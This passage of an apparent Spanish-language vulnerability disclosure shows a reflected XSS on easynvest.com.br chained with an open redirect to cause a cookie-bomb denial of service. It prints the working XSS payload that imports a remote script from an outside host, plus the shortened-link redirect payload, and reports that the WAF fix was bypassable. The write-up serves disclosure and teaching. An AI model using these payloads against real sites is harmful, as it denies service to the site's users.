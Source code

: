 - Hospedado en: https://heitorgouvea.me/public/payloads/bomb.js

2. Ejecución del código malicioso vía XSS reflejado:

- [https://indique.easynvest.com.br/?nome=><audio src="" onerror=import('//heitorgouvea.me/public/payloads/bomb.js');>&id=1]()

3. Redirección del usuario al payload utilizando un servicio de acortamiento de URLs: 

- [https://cutt.ly/syPnJXp]()

Payload final: 

- [https://easynvest.com.br/autenticacao?redirect_url=https://cutt.ly/syPnJXp]()

Resultado:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/-L2pl1Ke_Lo" title="Cookie Bomb - easynvest.com.br" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

---

### Impacto

La explotación encadenada de estas vulnerabilidades permite que un atacante provoque la indisponibilidad de la aplicación web para usuarios específicos. Esto se logra mediante la inyección masiva de cookies (cookie pollution), que supera los límites aceptables para el servidor, impidiendo que la aplicación se cargue hasta que el usuario elimine manualmente las cookies maliciosas. Aunque este estudio se centró en un vector de impacto específico (DoS), podrían surgir otras posibilidades de explotación dependiendo de la configuración de la aplicación.

---

### Conclusión

La explotación descrita requiere un bajo esfuerzo técnico y operativo, pero puede generar un impacto significativo para o usuário final. La combinación de una vulnerabilidad de XSS reflejado con otra de redirección abierta permite ejecutar un ataque de Denial of Service basado en Cookie Bomb, un vector poco común pero efectivo en contextos específicos.

Tras el contacto con la empresa responsable, se adoptaron las siguientes medidas:

- No se implementó una corrección definitiva para la vulnerabilidad de Open Redirect;
- El XSS reflejado fue mitigado con reglas en el Web Application Firewall (WAF), aunque se identificaron formas de eludir esta protección. Se presentaron argumentos técnicos al respecto, sin recibir una respuesta concluyente hasta la fecha de publicación.

---

### Referencias

- [1] [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
- [2] [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
- [3] [https://portswigger.net/kb/issues/00500100_open-redirection-reflected](https://portswigger.net/kb/issues/00500100_open-redirection-reflected)
- [4] [https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
- [5] [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options)
- [6] [https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [7] [https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Multifactor_Authentication_Cheat_Sheet.html)
- [8] [https://en.wikipedia.org/wiki/HTTP_cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
- [9] [https://blog.innerht.ml/tag/cookie-bomb/](https://blog.innerht.ml/tag/cookie-bomb/)